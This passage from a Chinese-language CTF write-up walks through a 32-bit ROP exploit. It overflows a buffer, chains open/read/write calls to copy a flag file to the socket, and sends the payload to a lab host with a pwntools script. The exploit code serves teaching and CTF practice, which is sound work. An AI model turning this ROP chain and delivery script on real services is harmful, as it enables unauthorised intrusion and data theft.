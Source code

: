```
open("flag",0)
read(file_fd,buf_addr,0x80)
write(socket_fd,buf_addr,0x80)
```

做到这里，小小的困惑了一下，Unix/Linux的一种重要思想就是一切皆文件，而这里的** file_fd **和 **socket_fd **数值应该是多少？既然不清楚，那就跟踪调试看一下。这里直接上** strace **工具，从下图可以观察到 file_descriptor 数值为 3 ， socket_descriptor 数值为 4 .

[![](https://p5.ssl.qhimg.com/t01b838d28453101068.png)](https://p5.ssl.qhimg.com/t01b838d28453101068.png)

接着布局payload如下：

```
# open("flag",0)
payload = "A"*64 
payload += p32(open_addr)
payload += p32(pop2_ret_addr)
payload += p32(flag_addr)
payload += p32(0)
# read(file_fd,buf_addr,0x80)
payload += p32(read_addr)
payload += p32(pop3_ret_addr)
payload += p32(3) # file_fd
payload += p32(buf_addr)
payload += p32(0x80)
# write(socket_fd,buf_addr，0x80)
payload += p32(write_addr)
payload += "BBBB"
payload += p32(4) # socket_fd
payload += p32(buf_addr)
payload += p32(0x80)
```

最后，通过交互，成功拿到flag。

```
p = remote("192.168.88.135",8888)
p.recvuntil("&gt; ")
p.sendline("store")
p.recvuntil("&gt; ")
p.sendline(str(len(payload)+1))
p.recvuntil("&gt; ")
p.sendline("payload")
p.recvuntil("&gt; ")
p.sendline(payload)
print p.recvline()
```

[![](https://p4.ssl.qhimg.com/t01d92d90fe4508d696.png)](https://p4.ssl.qhimg.com/t01d92d90fe4508d696.png)



## 0x02 Rop提高:no null byte 的 level2
